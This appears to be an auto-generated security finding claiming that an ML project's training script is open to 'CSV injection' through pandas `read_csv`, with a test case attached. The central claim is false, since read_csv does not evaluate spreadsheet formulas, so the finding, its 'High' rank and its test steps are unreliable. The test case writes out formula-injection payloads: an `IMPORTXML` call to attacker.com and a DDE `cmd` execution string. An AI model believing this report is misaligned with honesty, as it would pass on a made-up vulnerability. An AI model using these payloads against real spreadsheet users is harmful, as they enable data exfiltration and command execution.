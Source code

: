- Vulnerability Name: CSV Injection in Training Data Loading
- Description:
    1. An attacker crafts a malicious CSV file containing code designed for CSV injection vulnerabilities in pandas `read_csv` function.
    2. The user, intending to train a model using this project's example, configures their ML pipeline to use the attacker's malicious CSV file as the training dataset. This could happen if the user's data source is compromised or if the attacker can influence the data before it's used in the pipeline.
    3. When the training script `/code/src/model/train.py` executes, it uses pandas `pd.read_csv()` to load the training data from the attacker-controlled CSV file.
    4. Due to the CSV injection vulnerability, malicious code embedded in the CSV is executed during the data loading process.
- Impact:
    Arbitrary code execution on the machine running the training pipeline. This could lead to data exfiltration, system compromise, or other malicious activities.
- Vulnerability Rank: High
- Currently Implemented Mitigations: None
- Missing Mitigations:
    - Input validation and sanitization of CSV files before loading. This could involve checking for and escaping or rejecting potentially harmful characters or patterns in the CSV data.
    - Using secure data loading methods that are not vulnerable to CSV injection. Explore alternatives to `pd.read_csv()` if a safer option exists for the project's data format.
    - Implementing sandboxing or containerization for data processing and model training tasks to limit the impact of potential code execution vulnerabilities. Running these processes in isolated environments with restricted permissions can contain the damage.
- Preconditions:
    - The user must configure their MLOps pipeline to use a training dataset that is controlled or influenced by the attacker.
    - The training pipeline must execute the vulnerable code `/code/src/model/train.py` which uses `pd.read_csv()` to load the data.
- Source Code Analysis:
    1. Open the file `/code/src/model/train.py`.
    2. Locate the `main` function.
    3. Inside the `main` function, find the line: `df = pd.read_csv(args.input_data)`.
    4. Observe that `args.input_data`, which is user-provided input specifying the path to the training data, is directly passed to the `pd.read_csv()` function without any prior validation or sanitization.
    5. If `args.input_data` points to a malicious CSV file, the `pd.read_csv()` function is vulnerable to CSV injection, potentially leading to arbitrary code execution.
    6. Confirm that there is no input validation or sanitization performed on `args.input_data` or the content of the CSV file before it's loaded using `pd.read_csv()`.
- Security Test Case:
    1. Create a malicious CSV file named `malicious.csv` with a CSV injection payload. For example, using a formula injection payload:
       ```csv
       Column1,Column2
       =IMPORTXML(‘http://attacker.com/malicious.xml’,‘/’),value2
       ```
       **Note:** The specific payload might need to be adjusted based on the exact version of pandas and the underlying libraries to ensure successful injection. `=IMPORTXML` is used as an example, and other payloads like `=SYSTEM`, `=cmd|' /C calc'!A0` or similar might be applicable depending on the environment and pandas version.
    2. Modify the `cli/jobs/train.yml` file to use the `malicious.csv` file as input.  Change the `path` under `inputs.nyc_taxi_data` to point to the `malicious.csv` file. If testing locally, this could be a relative or absolute file path accessible to the execution environment. For testing in an Azure ML environment, the `malicious.csv` file would need to be uploaded to a datastore and the `path` should be adjusted to reference the datastore path.
    3. Run the training job using the modified `cli/jobs/train.yml`. Execute the script using: `bash ./scripts/jobs/train.sh`.
    4. Monitor the execution logs and system behavior for signs of code injection. For example, if the payload is designed to perform a network request (like `=IMPORTXML(‘http://attacker.com/malicious.xml’,‘/’)`), monitor for network connections to `attacker.com`. If the payload is intended to execute a system command (if possible with `pd.read_csv` and the environment), check for the effects of that command, such as file creation or process execution.
    5. If the malicious actions defined in the CSV payload are observed, the CSV injection vulnerability is confirmed. For example, if using `=IMPORTXML`, and a network request to `attacker.com` is observed when running the training job, this confirms the injection. For more direct command execution payloads (if applicable to `pd.read_csv`), successful execution of the injected commands would confirm the vulnerability.